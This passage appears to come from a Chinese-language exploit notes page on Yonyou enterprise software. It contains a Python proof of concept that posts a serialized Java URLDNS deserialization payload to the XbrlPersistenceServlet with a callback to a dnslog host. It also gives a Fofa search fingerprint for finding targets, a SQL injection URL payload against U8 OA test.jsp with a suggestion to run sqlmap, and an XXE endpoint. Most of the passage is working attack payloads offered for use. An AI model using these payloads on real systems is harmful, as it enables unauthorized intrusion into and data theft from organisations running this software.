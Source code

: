 ```python
data = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x73\x72\x00\x0c\x6a\x61\x76\x61\x2e\x6e\x65\x74\x2e\x55\x52\x4c\x96\x25\x37\x36\x1a\xfc\xe4\x72\x03\x00\x07\x49\x00\x08\x68\x61\x73\x68\x43\x6f\x64\x65\x49\x00\x04\x70\x6f\x72\x74\x4c\x00\x09\x61\x75\x74\x68\x6f\x72\x69\x74\x79\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x04\x66\x69\x6c\x65\x71\x00\x7e\x00\x03\x4c\x00\x04\x68\x6f\x73\x74\x71\x00\x7e\x00\x03\x4c\x00\x08\x70\x72\x6f\x74\x6f\x63\x6f\x6c\x71\x00\x7e\x00\x03\x4c\x00\x03\x72\x65\x66\x71\x00\x7e\x00\x03\x78\x70\xff\xff\xff\xff\x00\x00\x00\x50\x74\x00\x11"+dnslog+"\x3a\x38\x30\x74\x00\x00\x74\x00\x0e"+dnslog+"\x74\x00\x04\x68\x74\x74\x70\x70\x78\x74\x00\x18\x68\x74\x74\x70\x3a\x2f\x2f"+dnslog+"\x3a\x38\x30\x78"

uploadHeader={"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36"}
req = requests.post("http://+"ip"+/service/~xbrl/XbrlPersistenceServlet", headers=uploadHeader, verify=False, data=data, timeout=25)
print (req.text)
```

### 3.6 用友 `U8 OA` `SQL`注入漏洞

用友 `U8 OA test.jsp` 文件存在 `SQL` 注入漏洞

Fofa:

```
"/yyoa/seeyonoa/common/"
```

POC:

```
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```

![image-20220420133908432](https://fastly.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420133908432.png)

`sqlmap`跑一下

![image-20220420134720251](https://fastly.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420134720251.png)



### 3.7 xxe漏洞

接口处的XXE漏洞

POC:

```
/uapws/service/nc.uap.oba.update.IUpdateService?wsdl
```

![image-20220420135051396](https://fastly.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420135051396.png)


